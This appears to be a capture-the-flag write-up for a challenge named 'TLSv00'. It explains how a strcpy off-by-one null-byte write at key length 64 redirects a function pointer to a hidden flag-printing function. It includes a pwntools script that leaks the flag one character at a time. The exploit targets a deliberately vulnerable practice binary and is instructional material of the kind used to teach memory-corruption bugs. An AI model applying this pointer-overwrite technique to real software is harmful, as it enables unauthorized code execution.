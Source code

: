 # TLSv00

I didn't really enjoy this challenge, it is one of those challenges that feels piloted.

The challenge starts with generating a key with a key len of 63.

```c
generate_key(63);
```
which by pure sussyness is just a byte away from the max key len of 64 written in the generate_key() function.

```c
if (key_len > 0 && key_len <= 64) { ...
```
Now what happens when i put in a key len of 64?

Since the key gets copied from a buffer using the strcpy() function, it will copy the key up  until the null byte INCLUDED.

The buffer where the key is stored first gets memsetted to 0, this means that the last byte of the key will always be overwritten with a null byte.

Now, there's this function called print_flag() that loads into a function pointer the address of the function stored at f_do_comment(). Which CASUALLY differs by 1 byte from the address of the real_print_flag() function.

```c
if (get_char() == 'y') {
    do_domment = (void (*)())f_do_comment;
    ...
```
So by first loading the f_do_comment() function address into the function pointer and then putting a key_len of 64 we can overwrite the function pointer to make it point to print_real_flag()

```py
p.recvuntil(b'> ')
p.sendline(b'3')
p.sendlineafter(b'instead?',b'y')
p.recvuntil(b'> ')
p.sendline(b'1')
p.sendlineafter(b'key len: ',b'64')
```
Now, increasingly one by one we call the print_real_flag() function as we increase the size of the key, so one by one the i-th character of the flag will get xorred with 0, printing it plain.
    
```py
flag = b'F'

for i in range(64):
    p.recvuntil(b'> ')
    p.sendline(b'1')
    p.sendlineafter(b'key len: ',str(i))
    p.recvuntil(b'> ')
    p.sendline(b'2')
    p.recvuntil(b'> ')
    p.sendline(b'3')
    p.sendafter(b'instead? ',b'n')
    if i > 0:
        flag += p.recvuntil(b'1.')[:-2][i:i+1]

print(flag)
```